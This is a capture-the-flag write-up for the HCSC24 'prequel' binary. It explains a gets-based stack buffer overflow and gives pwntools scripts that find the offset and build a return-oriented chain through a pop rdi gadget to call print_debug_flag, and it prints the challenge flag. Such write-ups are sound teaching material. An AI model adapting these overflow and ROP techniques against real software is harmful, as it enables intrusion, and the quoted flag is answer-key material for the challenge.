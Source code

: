 # Overview
The given zip file contains a docker image with a 64 bit binary called prequel. There is also a `create_message_db.sh` script in the assets directory which creates an sqlite database in a file called `messages_debug.db` We will need to copy this to `messages.db` because the binary will read this file.

## Binary
![](screenshots/executable.png)
We have a statically linked 64-bit ELF executable. The symbols are fortunately not stripped. Pwntools' `checksec` says that there is stack canary protection in place, and there isn't a memory segment that is writeable and executable at the same time. We also don't have to worry about ASLR, the binary starts always at the same address in the memory.

## Running the binary
![](screenshots/running_executable.png)

The binary asks for a name, does an sql query and prints out the result.

## Decompiling
![](screenshots/decompiled.png)

When we open up the binary in our favourite decompiler we can see that the program uses seccomp (Secure Computing mode). This is a feature in the Linux kernel that is designed to filter system calls.
We can use `seccomp-tools` to dump the restrictions.

![](screenshots/seccomp.png)
As you can see using execve and execveat results in terminating the process, so we can't get a shell without exploiting the kernel itself to bypass the seccomp filter. However, this protection won't stop us from getting the flag.

## The vulnerability
![](screenshots/read_name.png)

The function `read_name` calls `gets` on a given buffer. It is a well-known fact that using `gets` is a bad idea because it doesn't do a length check on the input at all before writing it to the buffer. This is a classical case of a stack-based buffer overflow.

## Exploitation
Our buffer in this case is 64 bytes long, and there is an 8 bytes long base pointer, so the offset will be 72 bytes till the return address. The stack canary protection written by the checksec is not true for the main method.
We can also calculate this dynamically with the following code.
```python
from pwn import *

p = process("./prequel")
g = cyclic_gen()

p.sendline(g.get(100))
p.wait()

print(cyclic_find(p.corefile.fault_addr))
```

Since no segment is writeable and executable at the same time we have to use return-oriented programming (ROP), we can't just send a shellcode and jump there.
Fortunately, our job is quite easy because there is a function that prints out the flag using the debug `messages_debug.db` file. The function takes a number that determines the amount of the returned records.

![](screenshots/print_debug_flag.png)

We only need a pop rdi gadget now to set the first parameter in a function call, but luckily there is a function called `mary_poppins` that contains this gadget at the following memory address `0x401ff2` otherwise we could just use the tool `ROPgadget`.

```python
from pwn import *

context.binary = elf = ELF("./prequel")

p = process()

offset = 72
POP_RDI = 0x401FF2

payload = b"A" * 72 # padding
payload += p64(POP_RDI)
payload += p64(1337) # just a number that is greater than 3
payload += p64(elf.sym["print_debug_flag"]) # print_debug_flag's memory address

p.sendline(payload)
p.recvuntil(b"Prepared statement successfully\n")
flag = p.recvuntil(b"}").replace(b"\n", b"").decode() # delete line breaks

log.success("Got flag: " + flag)
```

Running the exploit on the remote server yields the following flag: `HCSC24{wh3n_y0ur_str1ngs_4r3_thE_M0stpr3c1ous_g4dG3t5}`